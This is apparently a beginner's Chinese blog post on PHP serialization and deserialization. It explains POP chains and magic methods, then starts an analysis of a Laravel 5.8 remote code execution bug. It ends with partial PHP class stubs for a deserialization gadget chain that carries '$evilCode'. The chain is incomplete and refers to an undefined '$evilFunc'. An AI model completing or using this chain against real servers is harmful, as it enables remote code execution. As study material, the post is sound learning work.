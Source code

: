 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      PHP序列化与反序列化的学习 # 标题 
subtitle:   以Laravel5.8 RCE分析为例 #副标题
date:       2019-11-21              # 时间
author:     LessterWong             # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - PHP
    - Web
    - Security
---
```


## 前言
>好像是我的第一篇博客呢~开心~

今天是个特殊的日子~小白王一帆正式开始了网络安全相关知识的学习。我会及时完成相关的学习任务并定期更新我的博客，为了更快成为一个合格的hacker而努力奋斗！

## PHP的反序列化相关知识

### PHP中类的构成
类成员由属性和方法构成，类属性存在于data_segment，类方法存在于code_segment。
对于一个类来说，占空间的部分只有类的属性。
所以我们有可能对类的属性进行一定的操作。

### 序列化与反序列化的定义
序列化定义：所有php里面的值都可以使用函数 serialize()来返回一个包含字节流的字符串来表示，而 unserialize()函数能够重新把字符串便会php原来的值。**序列化一个对象将会保存对象的所有变量，但是不会保存对象的方法，指挥保存类的名字**。

反序列化定义：为了能够unserialize()一个对象，这个对象的类必须已经定义过。如果序列化类A的一个对象，将会返回一个跟类A相关，而且包含了对象所有变量值的字符串。 **如果要想在另外一个文件中解序列化一个对象，这个对象的类必须在解序列化之前定义**，可以通过包含一个定义该类的文件或使用函数spl_autoload_register()来实现。

序列化操作只是保存对象(不是类)的变量，不保存对象的方法，因此其实反序列化的主要危害在于我们可以控制对象的变量来改变程序执行流程从而达到我们最终的目的。

### POP链
POP 链的构造是寻找程序当前环境中**已经定义了**或者**能够动态加载的对象**中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，当然进行反序列化的数据能够被用户输入所控制。

序列化攻击更多的是在**魔术方法**中出现一些利用的漏洞，因为自动调用从而触发漏洞。但如果关键代码不在魔术方法中，而是在一个类的普通方法中。这时候可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来。

例子详情可见[https://www.cnblogs.com/iamstudy/articles/php_object_injection_pop_chain.html](https://www.cnblogs.com/iamstudy/articles/php_object_injection_pop_chain.html) 将一个正常的调用改变，过程是构造pop链来调用其它类中的同名方法，从而达到特殊目的。

下面是自动调用的一些魔术方法：

| 函数名 | 函数功能 |
| ------ | ------ |
| __wakeup() | 使用unserialize时触发 |
| __sleep() | 使用serialize时触发 |
| __destruct() | 对象被销毁时触发 |
| __call() | 在对象上下文中调用不可访问的方法时触发 |
| __callStatic() | 在静态上下文中调用不可访问的方法时触发 |
| __get() | 用于从不可访问的属性读取数据 |
| __set() | 用于将数据写入不可访问的属性 |
| __isset() | 在不可访问的属性上调用isset()或empty()触发 |
| __unset() | 在不可访问的属性上使用unset()时触发 |
| __toString() | 把类当作字符串使用时触发 |
| __invoke() | 当脚本尝试将对象调用为函数时触发 |

关于魔术方法的详细资料参见[https://www.php.net/manual/zh/language.oop5.magic.php](https://www.php.net/manual/zh/language.oop5.magic.php)

目前全部理解有一丢丢困难，在以后的学习过程中一步一步来吧。

### Laravel 5.8 RCE分析
>源地址：[https://xz.aliyun.com/t/6059](https://xz.aliyun.com/t/6059)

这里就不按照原网址中的推导过程一步一步分析了，来主要分析一下在整个反序列化过程中的重点步骤以及其思路。

####POP链的构造方法
我们已经知道，当关键代码在一个类的普通方法中时，我们可以通过寻找相同的函数名将类的属性和敏感函数的属性联系起来。在这个例子中我们就是将PendingBroadcast这个类用__destruct方法构建出了一个evil类，用来实现我们的目的。

```
namespace Illuminate\Broadcasting {
	class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($evilCode)
        {
            $this->events = new \Illuminate\Bus\Dispatcher();
            $this->event = new BroadcastEvent($evilCode);
        }
    }

  class BroadcastEvent {
        public $connection;
        function __construct($evilCode)
        {
            $this->connection = $evilCode;
        }
    }
}

namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = $evilFunc;
        }
    }
}
```
